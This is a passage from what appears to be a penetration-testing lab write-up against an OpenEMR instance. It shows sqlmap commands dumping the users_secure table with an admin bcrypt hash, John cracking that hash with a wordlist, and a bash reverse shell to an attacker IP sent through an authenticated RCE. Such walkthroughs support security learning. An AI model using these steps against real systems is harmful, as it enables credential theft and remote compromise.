 ```shell 
[*] information_schema
[*] openemr
---SNIP---

[_4m0r@manjaro Cache]$ sqlmap -r $PWD/addEditEventUser.req -D openemr --tables
---SNIP---
| users                                 |
| users_facility                        |
---SNIP---

[_4m0r@manjaro Cache]$ sqlmap -r $PWD/addEditEventUser.req -D openemr -T users_secure --dump
---SNIP---
Database: openemr
Table: users_secure
[1 entry]
+------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
| id   | salt                           | username      | password                                                     | last_update         | salt_history1 | salt_history2 | password_history1 | password_history2 |
+------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
| 1    | $2a$05$l2sTLIG6GTBeyBf7TAKL6A$ | openemr_admin | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. | 2019-11-21 06:38:40 | NULL          | NULL          | NULL              | NULL              |
+------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
---SNIP---
```
The hash was cracked using **john** into **xxxxxx** and the same is shown below.
```shell 

[_4m0r@manjaro Cache]$ john --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt open_admin.hash  
Warning: detected hash type "bcrypt", but the string is also recognized as "bcrypt-opencl" 
Use the "--format=bcrypt-opencl" option to force loading these as that type instead 
Using default input encoding: UTF-8 
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3]) 
Cost 1 (iteration count) is 32 for all loaded hashes 
Will run 4 OpenMP threads 
Press 'q' or Ctrl-C to abort, almost any other key for status 
xxxxxx           (?) 
1g 0:00:00:00 DONE (2020-08-06 18:43) 3.846g/s 3323p/s 3323c/s 3323C/s tristan..felipe 
Use the "--show" option to display all of the cracked passwords reliably 
Session completed
```

# User Shell
## Initial Foothold
With a valid set of credentials identified as **openemr_admin:xxxxxx**, the authenticated RCE[^f2], discussed earlier
can now be used. The exploit was ran to execute a reverse shell on the target using the bash reverse shell from 
pentestmonkey[^f4]. The command executed through the exploit was `bash -i >& /dev/tcp/10.10.14.186/9095 0>&1` and that 
resulted in capturing a reverse shell on the netcat listener on the attacking host.
